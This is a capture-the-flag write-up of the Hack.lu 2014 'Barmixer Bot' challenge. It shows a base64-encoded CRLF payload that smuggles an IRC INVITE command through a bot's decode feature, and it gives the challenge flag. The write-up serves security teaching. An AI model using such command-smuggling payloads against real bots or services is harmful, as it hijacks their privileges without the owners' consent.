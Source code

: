 # Hack.lu CTF 2014: Barmixer Bot

**Category:** Misc
**Points:** 200
**Author:** freddy
**Description:**

> There’s a fun and quirky IRC bot to play with. It responds to commands in private chat but also in #hacklu-saloon on freenode. We think it’s involved in a devious scheme that distracts people to get their money pickpocketed. So be careful!
>
> **Announcement:** Due to a clever hack, somebody took over the nickname `barmixer-bot`, so it is now called `barmixing-bot`.

## Write-up

In the `#hacklu-saloon` channel on Freenode is a bot with operator privileges named `barmixer-bot` (later `barmixing-bot`).

```
22:32:57 <mathiasbynens> !help
22:32:58 <barmixing-bot> Send messages to the bot or the channel starting with an exclamation mark. Known commands are list, status, karma, math, base64, base64d, rot13, ping, hack, request, list
22:33:32 <mathiasbynens> !list
22:33:33 <barmixing-bot> Not implemented ;-)
22:33:34 <mathiasbynens> !status
22:33:35 <barmixing-bot> My name is barmixing-bot, my uptime is 3 hours 7 minutes and 18 seconds. I am on the following channels: #hacklu-saloon, #hacklu-secret-channel
```

That `#hacklu-secret-channel` sure looks interesting. Sadly it’s not possible to just `/join` it, as it’s an invite-only channel.

Some testing reveals that the bot’s `!base64d` functionality can be exploited. By letting the bot decode a multi-line message, remote IRC command execution is possible. Let’s use this to trick the bot into inviting us to the secret channel:

```bash
$ printf "hi\r\nINVITE mathiasbynens #hacklu-secret-channel" | base64
aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
```

Let’s feed this message to the bot for decoding:

```
22:38:44 <mathiasbynens> !base64d aGkNCklOVklURSBtYXRoaWFzYnluZW5zICNoYWNrbHUtc2VjcmV0LWNoYW5uZWw=
22:38:44 <barmixing-bot> hi
22:38:44 ** You have been invited to #hacklu-secret-channel by barmixing-bot
```

Joining `#hacklu-secret-channel` reveals the flag in the topic:

```
FLAG: GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH
```

The flag is `GfeBNmN5XjwDvQB64qoqaEEeYogk4rGH3ikZ0qtc3B3HKLDoAH`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-misc-200-barmixing-bot/>
